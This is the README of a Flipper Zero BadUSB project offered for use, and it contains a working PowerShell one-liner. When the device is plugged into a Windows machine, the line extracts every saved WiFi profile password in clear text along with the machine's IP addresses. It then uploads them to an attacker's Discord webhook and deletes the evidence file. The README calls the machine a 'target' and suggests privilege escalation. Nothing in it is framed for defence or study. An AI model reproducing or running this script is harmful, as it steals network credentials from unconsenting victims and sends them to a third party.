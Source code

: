 # Flipper-Cicada-custom-WIFIgrabber

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

## Description

This is a BadUSB script to grab WiFi passwords from Windows machine and submit to Discord WebHook via POST request.
This is a duckyscript to grab WiFi passwords from Windows machine and submit to Discord WebHook via POST request.
Tested on Windows 10 Professional ( with local administrator rights).
(privilege escilation may be required before deploying--untested without admin perms).
What the uniqueness about my script is, it will generate and .xml file containing the SSID of the target as well as wifi password of target.~~~
The script also generate a txt file with a table containing the target ip address both manual and DHCP along with wifi password included.~~~~~~
After it completes that in miliseconds it will compile both the .xml and .txt into one nice beautiful webhook POST.
See included images for examples


## Version History

* 0.1
    * Initial Release


## Category:	Exfiltration

<p align="right">(<a href="#top">back to top</a>)</p>

### CHANGE:   <\Your Intended Discord WebHook URL/> on ln no.43

### Executing program

* Plug in your device
```
* STRING $url=" <\Your Intended Discord WebHook URL/>"; Get-NetIPAddress -AddressFamily IPv4 | Select-Object IPAddress,SuffixOrigin | where IPAddress -notmatch '(127.0.0.1|169.254.\d+.\d+)' >> WiFi-PASS.txt;(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{PROFILE_NAME=$name;PASSWORD=$pass}} | Format-Table -AutoSize >> WiFi-PASS.txt;$Body=@{ content = "$env:computername Stats from Flipper"};Invoke-RestMethod -ContentType 'Application/Json' -Uri $url  -Method Post -Body ($Body | ConvertTo-Json);curl.exe -F "file1=@WiFi-PASS.txt" $url ; Remove-Item '.\WiFi-PASS.txt';
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contact

<div><h2>Cicada Unit</h2></div>
  <p><br/>
  
  <a href="https://github.com/Cicada-Unit/">
  </a>


  Project Link: [https://github.com/Cicada-Unit/Flipper-Cicada-custom-WIFIgrabber
</p>




